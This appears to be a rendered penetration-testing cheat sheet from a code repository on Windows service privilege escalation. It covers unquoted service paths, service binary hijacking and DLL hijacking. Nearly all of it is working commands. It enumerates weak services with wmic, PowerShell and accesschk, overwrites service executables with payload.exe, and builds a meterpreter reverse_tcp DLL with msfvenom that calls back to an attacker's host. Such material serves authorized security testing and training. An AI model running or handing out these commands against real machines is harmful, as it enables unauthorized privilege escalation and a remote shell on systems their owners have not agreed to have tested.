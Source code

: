 ### Service Exploitation Advanced

#### Unquoted Service Paths
```cmd
# Find unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# PowerShell method
Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notmatch "C:\\Windows\\" -and $_.PathName -notmatch '"'} | select PathName,DisplayName,Name

# Check permissions on directories
icacls "C:\Program Files\Unquoted Path Service\"
accesschk.exe -uwdq "C:\Program Files\Unquoted Path Service\"

# Exploitation
copy payload.exe "C:\Program Files\Unquoted.exe"
sc stop "vulnerable service"
sc start "vulnerable service"
```

#### Service Binary Hijacking
```cmd
# Find modifiable service binaries
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> services.txt
for /f %a in (services.txt) do @icacls "%a"

# PowerShell version
Get-WmiObject -Class Win32_Service | Where-Object {$_.PathName -notmatch "System32"} | ForEach-Object {icacls $_.PathName}

# Check service permissions
accesschk.exe -uwcqv "authenticated users" *
sc qc "vulnerable service"

# Exploitation
copy payload.exe "C:\path\to\service\binary.exe"
sc stop "vulnerable service"  
sc start "vulnerable service"
```

#### DLL Hijacking
```cmd
# Find services with missing DLLs
Process Monitor (procmon) - filter for "Process and Thread Activity" and "Image/DLL Activity"

# Common DLL hijacking locations
echo %PATH%
# Check writable directories in PATH
for %i in (%path:;= %) do @echo %i && icacls "%i"

# Create malicious DLL
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f dll > hijack.dll

# Place in writable directory in PATH or application directory
copy hijack.dll C:\writable\directory\missing.dll
```
